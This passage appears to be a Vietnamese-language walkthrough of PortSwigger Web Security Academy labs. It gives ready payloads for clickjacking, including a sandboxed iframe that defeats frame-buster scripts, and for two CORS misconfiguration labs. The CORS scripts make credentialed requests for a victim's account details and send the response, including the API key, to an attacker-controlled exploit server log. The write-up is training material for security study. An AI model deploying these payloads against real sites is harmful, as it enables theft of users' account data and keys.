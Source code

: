```
```  
### Lab 03: Clickjacking with a frame buster script
Tương tự như Lab 02:  
```
<style>
    iframe {
        position:relative;
        width: 500;
        height: 700 ;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450;
        left:60;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://0a12002c03fdb39bc0d6f08500c8001a.web-security-academy.net/my-account?email=ckiev5@test.com"></iframe>
``` 
Lưu ý: Sử dụng **sandbox="allow-forms"** attribute để vô hiệu hóa frame buster script.  
## Cross-origin resource sharing (CORS)
### Lab 01: CORS vulnerability with basic origin reflection
Sử dụng **exploit server**, chèn trong phần **Body**:  
```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ae0008b03e66af4c0c52a7100cd0018.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```  
  
![CORS_1](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/CORS_1.png)  

### Lab 02: CORS vulnerability with trusted null origin
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a1c002a049b075ac0d751c8002d00c4.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0a95000b04fb07afc05151d901bb0086.web-security-academy.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```  